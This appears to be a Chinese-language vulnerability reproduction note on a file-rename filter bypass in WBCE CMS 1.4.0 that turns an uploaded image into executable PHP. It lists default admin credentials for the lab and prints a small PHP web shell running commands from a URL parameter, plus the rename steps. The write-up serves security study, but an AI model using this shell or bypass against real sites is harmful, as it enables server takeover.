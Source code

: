 ## 1. 漏洞介绍

在 WBCE CMS 1.4.0 和更早版本的 admin/media/rename.php 中存在文件重命名过滤器绕过。具有管理员权限的经过身份验证的用户可以利用这一点来重命名媒体文件名和扩展名。 （例如：将 PHP 代码放在 .jpg 文件中，然后将文件的基本名称更改为 filename.ph 并将文件的扩展名更改为 p。由于连接，名称将被视为 filename.php。）结果，远程攻击者可以执行任意 PHP 代码。

[Arbitrary file upload vulnerbility in WBCE CMS 1.4.0 · kbgsft/vuln-wbce Wiki · GitHub](https://github.com/kbgsft/vuln-wbce/wiki/Arbitrary-file-upload-vulnerbility-in-WBCE-CMS-1.4.0)

## 2. 漏洞复现

登录：admin/123456

先上传个图片shell，然后利用重命名功能改后缀

shell.jpg

```php
<?php 
echo "webshell works!";
system($_GET['cmd']);
?>
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301123208.png)
